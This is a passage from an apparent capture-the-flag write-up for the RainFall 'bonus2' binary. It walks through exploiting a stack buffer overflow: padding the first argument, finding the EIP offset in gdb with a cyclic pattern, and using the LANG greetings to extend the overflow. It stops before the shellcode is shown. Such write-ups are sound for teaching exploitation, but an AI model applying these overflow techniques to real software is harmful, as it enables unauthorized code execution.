 So let's make our first argument `40` bytes long:
```bash
bonus2@RainFall:~$ offset=$(printf "%40s" " " | tr ' ' 'A')
bonus2@RainFall:~$ ./bonus2 "${offset}" pato
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApato
```

And there it is.

Further investigation reveals that the buffer where `hello` and `argv[1]+argv[2]`
gets concatenaned to, is at maximum `76` bytes, since the function it's a mess,
I can guaranteed more without looking too much at the assembly, but it's not
necessary, probably the buffer is smaller than that, but does not matter couse
copying a greetings message and a 76 buffer into another 76 buffer, will for
sure overflow, so let's get the EIP offset.

## Exploit

Our payload will consist of a first argument of `40` bytes size, and a payload
on the second one for the `shellcode`, but first, let's calculate the offset
with a pattern:
```bash
gdb -q ./bonus2

(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```

That's (remember is little endian): `Ab...` Seems like the overflow hasn't
reached EIP for 2 bytes...

But remember the `hello` of the other two languages are larger, so by
concatenating to other lenguage we should be good, let's check what expects
the binary to be in `LANG` for the other two languages:
```raw
                     DAT_08048738                                    XREF[1]:     main:0804859f(*)  
08048738 4c              ??         4Ch    L
08048739 41              ??         41h    A
0804873a 4e              ??         4Eh    N
0804873b 47              ??         47h    G
0804873c 00              ??         00h
                     DAT_0804873d                                    XREF[1]:     main:080485c4(*)  
0804873d 66              ??         66h    f
0804873e 69              ??         69h    i
0804873f 00              ??         00h
                     DAT_08048740                                    XREF[1]:     main:080485f3(*)  
08048740 6e              ??         6Eh    n
08048741 6c              ??         6Ch    l
08048742 00              ??         00h
```
